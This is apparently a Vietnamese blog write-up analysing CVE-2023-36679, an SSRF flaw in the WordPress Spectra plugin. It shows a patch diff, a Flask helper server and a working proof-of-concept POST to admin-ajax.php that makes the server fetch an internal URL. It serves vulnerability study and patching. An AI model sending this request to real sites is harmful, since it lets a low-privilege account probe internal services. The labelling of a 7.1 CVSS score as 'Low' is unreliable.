


<!--more-->

## CVE & Basic Info
Lỗ hổng Server Side Request Forgery (SSRF) đã được phát hiện trong plugin WordPress **Spectra** (trước đây gọi là **Ultimate Addons cho Gutenberg**) ảnh hưởng đến các phiên bản lên tới `2.6.6`.

* **CVE ID**: [CVE-2023-36679](https://www.cve.org/CVERecord?id=CVE-2023-36679)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.6.6
* **Patched Versions**: 2.6.7
* **CVSS severity**: Low (7.1)
* **Required Privilege**: Contributor
* **Product**: [WordPress Spectra Plugin](https://wordpress.org/plugins/ultimate-addons-for-gutenberg/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Spectra**: **2.6.6** (vulnerable) và **2.6.7** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {title="class-ast-block-templates.php v2.6.6" hl_lines=[2,6,14,21,24,26,28]}
public function template_importer() {	
    if ( ! current_user_can( 'edit_posts' ) ) {
        wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
    }
    // Verify Nonce.
    check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
    // other logic
    $api_args = apply_filters(
        'ast_block_templates_api_args',
        array(
            'timeout' => 15,
        )
    );
    $api_uri = ( isset( $_REQUEST['api_uri'] ) ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
    $request_params = apply_filters(
        'ast_block_templates_api_params',
        array(
            '_fields' => 'original_content',
        )
    );
    $demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

    // API Call.
    $response = wp_remote_get( $demo_api_uri, $api_args );
    // other logic
    $data = json_decode( wp_remote_retrieve_body( $response ), true );

    wp_send_json_success( $data['original_content'] );
}
```

Trong phiên bản 2.6.6, hàm `template_importer()` nhận tham số `api_uri` trực tiếp từ biến `$_REQUEST` và sử dụng giá trị này để gửi HTTP request thông qua hàm `wp_remote_get()`:

Do không có bước xác thực hoặc giới hạn nguồn, kẻ tấn công có thể cung cấp một URL tùy ý để ép máy chủ thực hiện request đến các địa chỉ nội bộ. Điều này tạo ra lỗ hổng **Server-Side Request Forgery (SSRF)**.

**Bản vá**:

```php {title="class-ast-block-templates.php v2.6.7" hl_lines=[2,6,14,15,16,23,26,28,30]}
public function template_importer() {	
    if ( ! current_user_can( 'edit_posts' ) ) {
        wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
    }
    // Verify Nonce.
    check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
    // other logic
    $api_args = apply_filters(
        'ast_block_templates_api_args',
        array(
            'timeout' => 15,
        )
    );
    $block_id   = isset( $_REQUEST['id'] ) ? absint( $_REQUEST['id'] ) : '';
    $block_data = get_option( 'ast-block-templates_data-' . $block_id );
    $api_uri = null !== $block_data ? $block_data->{'astra-page-api-url'} : '';
    $request_params = apply_filters(
        'ast_block_templates_api_params',
        array(
            '_fields' => 'original_content',
        )
    );
    $demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

    // API Call.
    $response = wp_remote_get( $demo_api_uri, $api_args );
    // other logic
    $data = json_decode( wp_remote_retrieve_body( $response ), true );

    wp_send_json_success( $data['original_content'] );
}
```

Bản vá đã loại bỏ việc nhận URL trực tiếp từ người dùng. Thay vào đó, mã chỉ nhận **ID của block** thông qua `$_REQUEST['id']` và truy xuất URL tương ứng từ cơ sở dữ liệu (`wp_options`) bằng khóa `ast-block-templates_data-{id}`:

Nhờ đó, URL được giới hạn trong các bản ghi được quản lý sẵn trong hệ thống, loại bỏ khả năng người dùng tự cung cấp đường dẫn tùy ý. Cơ chế này giúp ngăn chặn hoàn toàn nguy cơ **SSRF** và tăng tính an toàn khi gọi API từ phía máy chủ.

### Vulnerable Code 

`template_importer()` yêu cầu người dùng có đặc quyền từ **Contributor** trở lên

```php
if ( ! current_user_can( 'edit_posts' ) ) {
    wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
}
```

Xác thực nonce chống csrf với tên nonce là `_ajax_nonce`, nếu nonce không khớp => thoát khỏi logic và gửi lỗi.

```php
check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
```

> [!TIP]
> Lỗ hổng được công bố yêu cầu đặc quyền **Contributor**, nên giá trị `_ajax_nonce` rất có khả năng xuất hiện trong mã nguồn giao diện **Admin**.
> Với các lỗ hổng liên quan tới quyền Contributor thường gắn với chức năng tạo bài viết, bạn có thể tìm `_ajax_nonce` bằng cách inspect phần tạo/sửa post trong trang quản trị (hoặc tìm trong script/HTML mà trang Admin sinh ra).



Sau các bước xác thực, mã lấy trực tiếp giá trị `api_uri` từ `$_REQUEST`, gọi `esc_url_raw()` rồi ghép tham số truy vấn và thực hiện cuộc gọi HTTP bằng `wp_remote_get()`

```php
$api_uri = isset( $_REQUEST['api_uri'] ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
$request_params = array( '_fields' => 'original_content' );
$demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

$response = wp_remote_get( $demo_api_uri, $api_args );
```

Cuối cùng sẽ decode response và trả về dạng JSON với key `original_content`

```php
$data = json_decode( wp_remote_retrieve_body( $response ), true );
wp_send_json_success( $data['original_content'] );
```

`template_importer()` được đăng ký làm callback cho action hook:

```php
add_action( 'wp_ajax_ast_block_templates_importer', array( $this, 'template_importer' ) );
```

Tức, khi truy cập endpoint `/wp-admin/admin-ajax/php` với `action=ast_block_templates_importer` thì `template_importer()` được gọi.
## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "original_content": "XNXX.COM"
}
```

### Proof of Concept (PoC)

1. Tạo post và lấy `_ajax_nonce`
2. Gửi request với `api_uri` trỏ đến local service `http://127.0.0.1:8001/test` bằng user **Contributor**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, text/javascript, */*; q=0.01
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7Cf3dc677b2e483f598ad00a36fbd2f18ed1ed5015b39fc2df533aeb573a8dc3fd; wp-settings-time-2=1761027443; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7C1e8333233a2233576e988302d4f19d5c92470de4cc2bf4c1e31fb65788a44d35

action=ast_block_templates_importer&_ajax_nonce=3ef4c6d6df&api_uri=http://127.0.0.1:8001/test
```

**Result**:



### Conclusion
Phiên bản `≤ 2.6.6` của plugin `Spectra (Ultimate Addons for Gutenberg)` tồn tại lỗ hổng SSRF do sử dụng `wp_remote_get()` với URL do người dùng cung cấp mà không giới hạn hoặc xác thực nguồn.
Điều này cho phép tài khoản có quyền **Contributor** gửi request từ máy chủ WordPress đến các địa chỉ nội bộ.

### Key takeaways

* Không tin tưởng URL từ client, chỉ dùng dữ liệu có sẵn trên server.
* Ưu tiên dùng **`wp_safe_remote_get()`** thay cho `wp_remote_get()`.
* Kiểm tra phản hồi HTTP (status, MIME, nội dung).
* Giới hạn quyền gọi request chỉ cho vai trò cần thiết.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Spectra Plugin <= 2.6.6 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/ultimate-addons-for-gutenberg/vulnerability/wordpress-spectra-plugin-2-6-6-server-side-request-forgery-ssrf-vulnerability)
